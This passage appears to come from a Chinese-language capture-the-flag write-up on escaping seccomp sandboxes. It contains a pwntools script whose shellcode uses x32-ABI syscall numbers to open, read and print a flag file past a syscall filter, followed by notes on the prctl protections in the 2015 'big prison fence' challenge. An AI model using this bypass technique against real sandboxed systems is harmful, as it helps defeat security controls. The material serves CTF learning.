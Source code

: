 ```

cn.recvuntil('LOAD PROGRAM\n')

sc = '''
    push 0x1010101 ^ 0x7478
    xor dword ptr [rsp], 0x1010101
    mov rax, 0x742e67616c662f2e
    push rax
	mov rdi, rsp
	xor edx, edx /* 0 */
	xor esi, esi /* 0 */
	mov rax,0x40000002
	syscall

	mov rdi, rax
	sub rsp, 0x1000
	lea rsi, [rsp]
	mov rdx, 0x1000
	mov rax, 0x40000000
	syscall

	mov rdi, 1
	mov rdx, rax
	mov rax, 0x40000001
	syscall

	mov rax, 0x4000003c
	xor rdi, rdi
	syscall
'''
sc = asm(sc)
cn.send(p32(len(sc)))
sleep(0.2)
cn.send(sc)

cn.interactive()
```

- **2015 big prison fence**

Link: [https://github.com/yvrctf/2015/blob/master/bigprisonfence/README.md](https://github.com/yvrctf/2015/blob/master/bigprisonfence/README.md)

这次程序的保护为

```
prctl(PR_SET_DUMPABLE, 0, 0, 0, 0);
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT, 0, 0, 0);
```

第一个似乎会使我们gdb调试崩溃
第三个限制我们只能使用read, write, \_exit(but not exit\_group), sigreturn.
